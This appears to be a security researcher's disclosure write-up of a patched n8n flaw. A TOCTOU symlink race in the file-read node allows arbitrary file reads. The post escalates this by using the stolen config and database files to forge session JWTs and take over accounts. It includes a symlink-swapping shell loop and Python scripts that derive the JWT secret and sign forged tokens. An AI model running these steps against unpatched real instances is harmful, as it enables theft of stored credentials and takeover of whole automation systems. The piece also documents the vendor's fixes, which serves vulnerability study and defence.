



# Overview
This is the write up of a n8n vulnerability I found, patched January 14 2026. Here is the github security advisory : [https://github.com/n8n-io/n8n/security/advisories/GHSA-gfvg-qv54-r4pc](https://github.com/n8n-io/n8n/security/advisories/GHSA-gfvg-qv54-r4pc).

## What is n8n?
n8n is an open-source low-code orchestration tool which has gained a lot of popularity during recent years. Its use cases are wide, going from automating social media posts to acting as a SOAR (Security, Orchestration, Automation and Response). In company environment, it can be higly integrated with other tools, making it a critical target that can lead to whole infrastructure compromise.

n8n can be self-hosted or used via a cloud instance. This vulnerability concerns both of them.

I used n8n a bit for personal projects before checking their [Vulnerability Disclosure Program](https://n8n.notion.site/n8n-vulnerability-disclosure-program).

## How it works
"Workflows" are basically programs that you can run on a schedule, manually, by calling a webhook or via other workflows. They are made of "Nodes" which make some action like manipulating data, making http requests or sending slack messages. There are a lot of different nodes in order to integrate with any tools, mainly via API. Workflows are restricted to the personal project of the user but can be shared. 

Credentials are managed the same way, moreover they are encrypted outside of workflows. To use them, you reference them and they are decrypted at runtime.

In order to manage workflows and credentials, authentification is needed.

# Race condition finding
## Climbing from the fix to the vulnerability
During my first assesment of n8n security, I started by reading disclosed Github Securiy Advisories (there were only 8 at this time), with one being [Symlink traversal vulnerability in "Read/Write File" node allows access to restricted files](https://github.com/n8n-io/n8n/security/advisories/GHSA-ggjm-f3g4-rwmm), credited to @Mahmoud0x00 in August 2025.



Basicaly, this vulnerability uses symlink to bypass restrictions on the "Read/Write file" node, which normaly permits reading or writing files only to certain locations on the underlying filesystem. Interestingly enough, it only affects self-hosted instances.

I went ahead and checked how the fix was implemented. The summary of the [pull request](https://github.com/n8n-io/n8n/pull/17735) referenced is pretty self-explanatory : ```Use realpath function instead of resolve to resolve the real path of a file, in a case it is a symlink to a different location, which might be blocked```. Let's dive deeper and check the concerned code in [packages/core/src/execution-engine/node-execution-context/utils/file-system-helper-functions.ts](https://github.com/n8n-io/n8n/blob/d0a488a9ae1935ddd326290af915c17b0c8fbdb0/packages/core/src/execution-engine/node-execution-context/utils/file-system-helper-functions.ts) : 

```typescript
import { createReadStream } from 'node:fs';
import {
	access as fsAccess,
	writeFile as fsWriteFile,
	realpath as fsRealpath,
} from 'node:fs/promises';
[...]

export async function isFilePathBlocked(filePath: string): Promise<boolean> {
	const allowedPaths = getAllowedPaths();
-   const resolvedFilePath = resolve(filePath);
+	const resolvedFilePath = await fsRealpath(filePath);
	const blockFileAccessToN8nFiles = process.env[BLOCK_FILE_ACCESS_TO_N8N_FILES] !== 'false';

	const restrictedPaths = blockFileAccessToN8nFiles ? getN8nRestrictedPaths() : [];
	if (
		restrictedPaths.some((restrictedPath) => isContainedWithin(restrictedPath, resolvedFilePath))
	) {
		return true;
	}

	if (allowedPaths.length) {
		return !allowedPaths.some((allowedPath) => isContainedWithin(allowedPath, resolvedFilePath));
	}

	return false;
}

export const getFileSystemHelperFunctions = (node: INode): FileSystemHelperFunctions => ({
	async createReadStream(filePath) {
		try {
			await fsAccess(filePath);
		} catch (error) {
			[...]
		}
		if (await isFilePathBlocked(filePath as string)) {
			[...]
		}
		return createReadStream(filePath);
	},

    [...]
});
```

The function "createReadStream" is called by the Read/Write file node with a filePath parameter. 
- First, this path is checked against fsAccess which errors out if the file doesn't exist.
- Then, the isFilePathBlocked function is called with the filePath. The filePath is resolved and checked against forbidden directories.
- If it returns False, fs.createReadStream is called with the given filePath.

The vulnerability lays in the fact that fsAccess and fs.createReadStream does resolve symlinks, but the isFilePathBlocked function uses resolve which doesn't. 

If an attacker provides /home/node/pwn/passwd as a pathfile to the Read/Write file node, where pwn is a symlink pointing to /etc :
- fsAccess returns true, because /etc/passwd exists (symlink resolved).
- isFilePathBlocked returns false, because /home/node/pwn/passwd is not in a forbidden directory (symlink not resolved).
- fs.createReadStream is created with the path /etc/passwd (symlink resolved).

With the fix, fsRealpath is used instead of resolve which does resolve symlinks. In the previous scenario, isFilePathBlocked now returns true because /etc/passwd is in a forbidden directory.

## TOCTOU
The fix is working as intented, but something may have caught your eye like it did for me in the createReadStream function.

The 3 different symlink resolutions happen at 3 different times, opening up the possibility of a TOCTOU (Time-of-check vs Time-of-use) vulnerability.
If we change what the symlink is pointing to between those moments, all 3 checks would be against different files.

The attack scenario would look like this with the pathFile /home/node/pwn/passwd :
- Symlink pwn points to /etc.
- fsAccess resolves to /etc/passwd and returns true (it also works if /home/node/passwd exists and pwn points to /home/node).
- Symlink changes and points to /home/node.
- isFilePathBlocked resolves to /home/node/passwd and returns false because it is allowed.
- Symlink changes and points to /etc.
- fs.createReadStream resolves to /etc/passwd and returns a ReadStream to this file.

I first tested this on a self-hosted docker instance where I launched a simple bash script that repeatedly modifies a symlink between 2 destinations :
```sh
#!/bin/sh
while true
do
rm pwn
ln -s /home/node pwn
rm pwn
ln -s /etc pwn
done
```

I then made a workflow which forever tries to exploit this race condition and only stop when the forbidden file is retrieved, or after a timeout :



We can note that the "Write dummy file to /home/node" node creates an empty file at /home/node/passwd in order to always pass the fsAccess check, making the race condition more likely to happen.

By launching the bash script and then the workflow, the file is read after only a few seconds and around 10 to 20 loops. 

## Symlinks management
In order to really achieve this arbitrary read file vulnerability, the symlink quick change needs to be done from n8n.

Git is the perfect candidate for this : it can handle symlinks and its branches can be used to switch between two directories.

After setting up a Github repository (named n8n_ATO) with just one symlink named pwn, pointing to /etc in main branch and to /home/node in second branch, we can clone it to /home/node/n8n_ATO on the local filesystem with the Git Clone node.

This workflow will repeatedly switch between the 2 branches until it timeouts :



The readfile workflow needs to be updated to try to access the /home/node/n8n_ATO/passwd file.

Now by launching the git workflow and then the readfile workflow, the file read is achieved roughly after the same delay.

By changing the file accessed and the forbidden directory pointed by the symlink, any file that the user running n8n (node) has access to can be read.

# Enhance impact
## JWT Forging
Arbitrary File Read is done, let's see if we can escalate it further than the original report (spoiler: we can).

In parallel to this race condition, I did some source code reading on how n8n manages sessions.
It uses signed JWT as defined in [auth.service.ts](https://github.com/n8n-io/n8n/blob/master/packages/cli/src/auth/auth.service.ts) :
```typescript
interface AuthJwtPayload {
	/** User Id */
	id: string;
	/** This hash is derived from email and bcrypt of password */
	hash: string;
	/** This is a client generated unique string to prevent session hijacking */
	browserId?: string;
	/** This indicates if mfa was used during the creation of this token */
	usedMfa?: boolean;
}

[...]

issueJWT(user: User, usedMfa: boolean = false, browserId?: string) {
	const payload: AuthJwtPayload = {
		id: user.id,
		hash: this.createJWTHash(user),
		browserId: browserId && this.hash(browserId),
		usedMfa,
	};
	return this.jwtService.sign(payload, {
		expiresIn: this.jwtExpiration,
	});
}

[...]

createJWTHash({ email, password, mfaEnabled, mfaSecret }: User) {
	const payload = [email, password];
	if (mfaEnabled && mfaSecret) {
		payload.push(mfaSecret.substring(0, 3));
	}
	return this.hash(payload.join(':')).substring(0, 10);
}

private hash(input: string) {
	return createHash('sha256').update(input).digest('base64');
}
```
In order to create a valid JWT, 6 pieces of information are needed :
- User Id.
- User email.
- User bcrypt encrypted password.
- MFA secret if mfa has been used.
- browserId.
- JWT signature secret.

All 4 first components are present in the database, more precisely in the user table :
```sql
sqlite> PRAGMA table_info(user);
0|id|varchar|0||1
1|email|varchar(255)|0||0
2|firstName|varchar(32)|0||0
3|lastName|varchar(32)|0||0
4|password|varchar|0||0
5|personalizationAnswers|TEXT|0||0
6|createdAt|datetime(3)|1|STRFTIME('%Y-%m-%d %H:%M:%f', 'NOW')|0
7|updatedAt|datetime(3)|1|STRFTIME('%Y-%m-%d %H:%M:%f', 'NOW')|0
8|settings|TEXT|0||0
9|disabled|boolean|1|FALSE|0
10|mfaEnabled|boolean|1|FALSE|0
11|mfaSecret|TEXT|0||0
12|mfaRecoveryCodes|TEXT|0||0
13|lastActiveAt|date|0||0
14|roleSlug|varchar(128)|1|'global:member'|0
```
sqlite is the default database format of n8n, and it is kept in the file /home/node/.n8n/database.sqlite.

The browserId can be arbitrary set.

And the JWT signature secret is defined in [jwt.service.ts](https://github.com/n8n-io/n8n/blob/master/packages/cli/src/services/jwt.service.ts) :
```typescript
constructor({ encryptionKey }: InstanceSettings, globalConfig: GlobalConfig) {
		this.jwtSecret = globalConfig.userManagement.jwtSecret;
		if (!this.jwtSecret) {
			// If we don't have a JWT secret set, generate one based on encryption key.
			// For a key off every other letter from encryption key
			// CAREFUL: do not change this or it breaks all existing tokens.
			let baseKey = '';
			for (let i = 0; i < encryptionKey.length; i += 2) {
				baseKey += encryptionKey[i];
			}
			this.jwtSecret = createHash('sha256').update(baseKey).digest('hex');
			Container.get(GlobalConfig).userManagement.jwtSecret = this.jwtSecret;
		}
	}
```
It is derived from the encryptionKey, which is stocked in the /home/node/.n8n/config file.

## 0-Click ATO
By retrieving these 2 files, we can forge any valid JWT and achieve Account Take Over. At least in theory, because when I tried to replicate this on a fresh cloud instance, I found an almost empty database.

After further testing, I found out that I was tricked by the WAL (Write Ahead Logging) functionality of SQLite : changes to the database may not be instantly committed to the database.sqlite file, so in this case it contained no information about the owner account.

I needed to repeat the arbitrary read to download the /home/node/.n8n/database.sqlite-wal file, which contains non-committed changes.

With both files in the same directory, opening the sqlite file with sqlite3 database.sqlite and fetching user data with ```SELECT id, email, password, mfaEnabled, mfaSecret FROM user;``` will automatically commit all the changes.

Here are the python scripts I used for the POC :
- jwt_from_encryption.py that derives the JWT secret from the encryption key
```python
import hashlib
import argparse

def derive_jwt_secret(encryption_key: str) -> str:
    base_key = encryption_key[::2]
    return hashlib.sha256(base_key.encode()).hexdigest()


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Derive JWT secret from encryption key.")
    parser.add_argument(
        "encryption_key",
        type=str,
        help="Encryption key used to derive the JWT secret."
    )

    args = parser.parse_args()

    jwt_secret = derive_jwt_secret(args.encryption_key)
    print(jwt_secret)
```
Usage : ```python3 jwt_from_encryption.py "<encryption_key>"```
- jwt_sign.py that creates and sign the JWT from all needed information
```python
import jwt
import datetime
import argparse

class AuthService:
    def __init__(self, jwt_secret: str, jwt_expiration: str, jwt_algorithm="HS256"):
        self.jwt_secret = jwt_secret
        self.jwt_algorithm = jwt_algorithm
        self.jwt_expiration = jwt_expiration

    def hash(self, input_str: str) -> str:
        import hashlib, base64
        digest = hashlib.sha256(input_str.encode("utf-8")).digest()
        return base64.b64encode(digest).decode("utf-8")

    def create_jwt_hash(self, user):
        import hashlib, base64
        email = user.get("email")
        password = user.get("password")
        mfa_enabled = user.get("mfaEnabled")
        mfa_secret = user.get("mfaSecret")

        payload = [email, password]
        if mfa_enabled and mfa_secret:
            payload.append(mfa_secret[:3])

        sha = hashlib.sha256(":".join(payload).encode("utf-8")).digest()
        return base64.b64encode(sha)[:10].decode("utf-8")

    def _parse_expiration(self, exp: str) -> datetime.timedelta:
        value = int(exp[:-1])
        unit = exp[-1]

        match unit:
            case "s": return datetime.timedelta(seconds=value)
            case "m": return datetime.timedelta(minutes=value)
            case "h": return datetime.timedelta(hours=value)
            case "d": return datetime.timedelta(days=value)
            case _:   raise ValueError("Expiration must end with s/m/h/d")

    def issue_jwt(self, user, used_mfa: bool = False, browser_id: str | None = None):
        payload = {
            "id": user["id"],
            "hash": self.create_jwt_hash(user),
            "browserId": self.hash(browser_id) if browser_id else None,
            "usedMfa": used_mfa,
            "exp": datetime.datetime.utcnow() + self._parse_expiration(self.jwt_expiration),
        }
        print(payload)
        return jwt.encode(payload, self.jwt_secret, algorithm=self.jwt_algorithm)


parser = argparse.ArgumentParser(description="Generate JWT from AuthService")

parser.add_argument("--jwt-secret", required=True, help="JWT secret key")
parser.add_argument("--jwt-expiration", default="1h", help="Expiration (e.g., 20m, 1h)")

parser.add_argument("--id", required=True, help="User ID")
parser.add_argument("--email", required=True, help="User email")
parser.add_argument("--password", required=True, help="User password")

parser.add_argument("--mfa-enabled", action="store_true", help="Set MFA enabled")
parser.add_argument("--mfa-secret", default=None, help="MFA secret key")

parser.add_argument("--used-mfa", action="store_true", help="Mark that MFA was used")
parser.add_argument("--browser-id", default=None, help="Browser ID")

args = parser.parse_args()

user = {
    "id": args.id,
    "email": args.email,
    "password": args.password,
    "mfaEnabled": args.mfa_enabled,
    "mfaSecret": args.mfa_secret
}

service = AuthService(jwt_secret=args.jwt_secret, jwt_expiration=args.jwt_expiration)

token = service.issue_jwt(user, used_mfa=args.used_mfa, browser_id=args.browser_id)
print("\nJWT TOKEN:")
print(token)
```
Usage : 
```bash
python3 jwt_sign.py \                                            
  --jwt-secret '<jwt_secret>' \
  --jwt-expiration '1h' \
  --id '<userId>' \
  --email '<userEmail>' \
  --password '<bcrypt encrypted password>' \
  --mfa-enabled \
  --mfa-secret '<mfa secret>' \
  --used-mfa \
  --browser-id '<browserId>'
```

By providing the forged JWT and the corresponding browserId in requests to n8n, we are connected as the victim. The owner account can be took over, giving full access to the whole instance.

# Remediation
## First fix attempt
n8n development team quickly made a fix by resolving the path before calling createReadStream and preventing any potential symlinks from being followed inside the function :
```typescript
async function resolvePath(path: PathLike): Promise<ResolvedFilePath> {
	try {
		return (await fsRealpath(path)) as ResolvedFilePath; // apply brand, since we know it's resolved now
	} catch (error: unknown) {
		if (error instanceof Error && 'code' in error && error.code === 'ENOENT') {
			return resolve(path.toString()) as ResolvedFilePath; // apply brand, since we know it's resolved now
		}
		throw error;
	}
}
```

```typescript
// Use O_NOFOLLOW to prevent createReadStream from following symlinks. We require that the path
		// already be resolved beforehand.
		const stream = createReadStream(resolvedFilePath, {
			flags: (constants.O_RDONLY | constants.O_NOFOLLOW) as unknown as string,
		});
```

However, my exploit still worked as it was and Account Take Over was still possible.
I didn't dive very deep into why it was not working, so feel free to correct me if you think I am wrong, but I think it is because of 2 things :
- First, the fallback to resolve function if fsRealPath fails means we can still put unresolved symlink in resolvedFilePath.
- Moreover, the O_NOFOLLOW flag prevents following symlinks ONLY if the symlink is at the end of the filepath, which is not the case in our POC (/home/node/n8n_ATO/pwn/config -> config is not a symlink). See [NodeJS doc](https://nodejs.org/api/fs.html#file-system-flags:~:text=flag%20can%20also%20be%20a%20number%20as%20documented%20by%20open(2)) that references [man Open(2)](https://man7.org/linux/man-pages/man2/open.2.html#:~:text=not%20have%20one.-,O_NOFOLLOW,-If%20the%20trailing).

## Working fix
The second fix is more robust. It introduces 2 security layers :
-  The path resolution is now split in half, between the dirname (here /home/node/n8n_ATO/pwn/) and the basename (here config). Only fsRealPath is used to resolve the dirname, so no symlink is left. Then, O_NOFOLLOW is used to open the file to prevent any symlink in the basename to be followed.
```typescript
async function resolvePath(path: PathLike): Promise<ResolvedFilePath> {
	const pathStr = path.toString();

	try {
		return (await fsRealpath(pathStr)) as ResolvedFilePath; // apply brand, since we know it's resolved now
	} catch (error: unknown) {
		if (error instanceof Error && 'code' in error && error.code === 'ENOENT') {
			// File doesn't exist - resolve the parent directory and append filename
			const dir = dirname(pathStr);
			const file = basename(pathStr);
			const resolvedDir = await fsRealpath(dir);
			return join(resolvedDir, file) as ResolvedFilePath;
		}
		throw error;
	}
}
```
- Device and inode number of the path is checked at the beginning and at the end of the function, against the resolved path. This ensures the same file is checked and read.

# Conclusion
## Impact
As explained in the introduction, n8n is typically intregated with multiple tools, meaning it stores API keys and credentials. By taking over the owner account, we can access and exploit any of these credentials. We can also modify / delete any workflow.

Even if a company using n8n with critical tools applies least privilege principle, with multiple low privilege accounts for different tasks, a single account compromised means the whole instance is compromised too.

However, a valid account is needed, which reduce the risk of this vulnerability being exploited in the wild. The authenticated nature of this vulnerability limit the practical risk to instances where users are trusted.

## Patch
Quoting the advisory :

The issue has been fixed in n8n version 1.123.18 and 2.5.0. Users should upgrade to this version or later to remediate the vulnerability.

If upgrading is not immediately possible, administrators should consider the following temporary mitigations:

- Limit workflow creation and editing permissions to fully trusted users only.
- Restrict access to nodes that interact with the file system, particularly the "Read/Write Files from Disk" and "Git" nodes.
These workarounds do not fully remediate the risk and should only be used as short-term mitigation measures.

# Thanks
I would like to strongly thank n8n security and dev teams, who responded quickly and with transparency. They provided regular updates on fix development, and the overall disclosure went smooth.

# Timeline
- Nov 22, 2025 : Vulnerability reported.
- Nov 24, 2025 : Report acknowledged.
- Dec 2, 2025 : Vulnerability confirmed.
- Dec 18, 2025 : First fix released.
- Dec 18, 2025 : Bypass of fix reported.
- Jan 13, 2026 : Second fix released.
- Jan 14, 2026 : Fix confirmed.
- Feb 4, 2026 : Security advisory published and bounty awarded.
